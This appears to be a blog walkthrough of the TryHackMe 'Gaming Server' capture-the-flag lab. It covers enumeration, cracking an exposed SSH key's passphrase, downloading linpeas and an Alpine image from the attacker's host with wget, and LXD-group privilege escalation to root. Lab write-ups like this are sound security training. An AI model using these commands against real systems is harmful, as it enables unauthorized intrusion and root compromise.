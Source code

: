 ```yaml
---
layout: post
permalink: /posts/thm/gaming-server
title: "Gaming Server"
---
```


Let's start our enumeration process with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/gaming-server/nmap.png)

There are open ports 22 ssh and 80 http. Before visit the web server run a scan for hidden directories.

```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

While we are waiting the scan go and visit the web server.

![website](/assets/images/thm/gaming-server/website.png)

Nothing interesting here, let's look the source code.

![source-code](/assets/images/thm/gaming-server/source-code.png)

At the end of the source code we have found a message for john. This could be a username. Our web scan has finished.

![gobuster](/assets/images/thm/gaming-server/gobuster.png)

There are two interesting directories `secret` and `uploads`. Let's check them.

![secret](/assets/images/thm/gaming-server/secret.png)

Open this key.

![secret-key](/assets/images/thm/gaming-server/secret-key.png)

Probably we'll be able to SSH with this key and the username we had found earlier. Copy the whole context of the key and create a file, `id_rsa` for example and also change the mode.

```
chmod 600 id_rsa
```

Now try to ssh.

```
ssh -i id_rsa john@<IP>
```

![ssh1](/assets/images/thm/gaming-server/ssh1.png)

Hmm... we need a passphrase. Let's visit the uploads directory.

![uploads](/assets/images/thm/gaming-server/uploads.png)

There are some files.

![meme](/assets/images/thm/gaming-server/meme.png)

![manifesto](/assets/images/thm/gaming-server/manifesto.png)

![dict](/assets/images/thm/gaming-server/dict.png)

One of the file looks like passwords list. Let's try to crack the id_rsa passphrase. We can first use `ssh2john` for that purpose.

```
/opt/john/ssh2john.py id_rsa > hash
```

Now we have the hash, let's crack it.

```
john --wordlist=dict hash
```

![john](/assets/images/thm/gaming-server/john.png)

Here we go. Try to ssh again.

```
ssh -i id_rsa john@<IP>
```

![ssh2](/assets/images/thm/gaming-server/ssh2.png)

From here we can reveal the first flag. We now need to escalate our privileges. Let's review if we can execute any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/gaming-server/sudo-l.png)

Unfortunately the password is not the same as the passphrase for the ssh key. We can use `leanpeas` to automate our possible privileges. On your attacking machine start a python server where the linpeas is located.

```
python3 -m http.server
```

On the target machine navigate to `/tmp` folder and download the script.

![wget](/assets/images/thm/gaming-server/wget.png)

Give execution permission to the script.

```
chmod +x linpeas.sh
```

and run it

```
./linpeas.sh
```

![linpeas](/assets/images/thm/gaming-server/linpeas.png)

Based on the linpeas legend if something is highlighted with red/yellow this probably will be our privilege escalation vector. Our user is in `lxd` group. I have googled `lxd exploit` and I have found this article <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation>.

![hacktricks](/assets/images/thm/gaming-server/hacktricks.png)

Good news for us! I have followed the steps but for some reason I wasn't able to install `distrobuilder`. Going back to the google result I have found another article <https://www.hackingarticles.in/lxd-privilege-escalation/> Following these steps I was able to escalate our privileges.

On your attacking machine execute the following commands.

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Once the tar.gz file is created start python server again.

![builder](/assets/images/thm/gaming-server/builder.png)

On the target machine again from the tmp folder download the tar.gz file.

```
wget http://<YOUR-ATTACKING-MACHINE-IP>:8000/<TAR-FILE-NAME>.tar.gz
```

now we can add the image to LXD

```
lxc image import ./<TAR-FILE-NAME>.tar.gz --alias myimage
```

list the images

```
lxc image list
```

![lxc-ls](/assets/images/thm/gaming-server/lxc-ls.png)

Everything looks good, now use the following commands to escalate our privileges.

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

![esc](/assets/images/thm/gaming-server/esc.png)

Here we go, we have a root shell. Try to find the root flag.

```
find / -type f -name root.txt
```
